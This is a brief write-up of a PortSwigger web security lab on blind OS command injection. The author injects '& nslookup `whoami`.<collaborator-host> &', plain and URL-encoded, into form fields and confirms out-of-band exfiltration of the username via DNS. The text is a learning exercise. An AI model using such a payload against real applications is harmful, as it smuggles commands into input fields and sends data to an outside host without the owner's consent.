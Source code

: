 ```yaml
---
tags: ["nslookup", "commmand injection"]
image: "img/Portswigger/command-injection.png"
---
```


--> This lab is same as Lab-4 but here we have to execute the os command in the DNS lookup which we can do with the backtick so i set up my burp collaborator server and used this payload in every field :

```bash
 & nslookup `whoami`.server.burpcollaborator.net &
#After encoding
+%26+nslookup+`whoami`.hm79ndstkro1octlc11atpw9w02qqf.burpcollaborator.net+%26
```

--> And after using it in `email` field i got the DNS lookup with the username!

![](Attachments/Pastedimage20220120125310.png)

--> And we solved the lab!

![](Attachments/Pastedimage20220120125352.png)
